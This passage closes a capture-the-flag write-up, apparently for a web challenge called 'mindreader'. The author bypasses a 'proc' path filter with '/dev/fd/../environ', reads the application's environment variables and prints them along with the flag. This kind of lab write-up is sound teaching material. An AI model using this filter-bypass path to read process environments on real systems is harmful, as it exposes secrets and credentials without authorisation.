 Knowing the app was running on Debian 8.8 (Jessie) I started a local Docker container and looked at `/dev`:

```
$ docker run --rm -ti debian:jessie
root@bfd12faaecb2:/# cd /dev
root@bfd12faaecb2:/dev# ls -al
total 4
drwxr-xr-x 5 root root    360 Jun 18 21:34 .
drwxr-xr-x 1 root root   4096 Jun 18 21:34 ..
crw------- 1 root root 136, 0 Jun 18 21:34 console
lrwxrwxrwx 1 root root     11 Jun 18 21:34 core -> /proc/kcore
lrwxrwxrwx 1 root root     13 Jun 18 21:34 fd -> /proc/self/fd
crw-rw-rw- 1 root root   1, 7 Jun 18 21:34 full
drwxrwxrwt 2 root root     40 Jun 18 21:34 mqueue
crw-rw-rw- 1 root root   1, 3 Jun 18 21:34 null
lrwxrwxrwx 1 root root      8 Jun 18 21:34 ptmx -> pts/ptmx
drwxr-xr-x 2 root root      0 Jun 18 21:34 pts
crw-rw-rw- 1 root root   1, 8 Jun 18 21:34 random
drwxrwxrwt 2 root root     40 Jun 18 21:34 shm
lrwxrwxrwx 1 root root     15 Jun 18 21:34 stderr -> /proc/self/fd/2
lrwxrwxrwx 1 root root     15 Jun 18 21:34 stdin -> /proc/self/fd/0
lrwxrwxrwx 1 root root     15 Jun 18 21:34 stdout -> /proc/self/fd/1
crw-rw-rw- 1 root root   5, 0 Jun 18 21:34 tty
crw-rw-rw- 1 root root   1, 9 Jun 18 21:34 urandom
crw-rw-rw- 1 root root   1, 5 Jun 18 21:34 zero
```

Are you seeing those symlinks? Can we maybe use that to bypass the `proc` filter?

Let's try `/dev/fd/../environ` and BINGO!

```
GAE_MEMORY_MB=614
HOSTNAME=29d21dea6d17
GAE_INSTANCE=aef-mindreader--sss6w3uqjfrcntmn-20170617t103851-6lrq
PORT=8080
HOME=/root
PYTHONUNBUFFERED=1
GAE_SERVICE=mindreader-sss6w3uqjfrcntmn
PATH=/env/bin:/opt/python3.5/bin:/opt/python3.6/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
GAE_DEPLOYMENT_ID=402032768035787859
LANG=C.UTF-8
DEBIAN_FRONTEND=noninteractive
GCLOUD_PROJECT=ctf-web-kuqo48d
GOOGLE_CLOUD_PROJECT=ctf-web-kuqo48d
CHALLENGE_NAME=mindreader
VIRTUAL_ENV=/env
PWD=/home/vmagent/app
GAE_VERSION=20170617t103851
FLAG=CTF{ee02d9243ed6dfcf83b8d520af8502e1}
```

Done and done!


# Wrap-up

What an excellent challenge. It took me hours on and off, thinking, puzzling, investigating. Many doubling-backs. Never give up.

Google, well done!







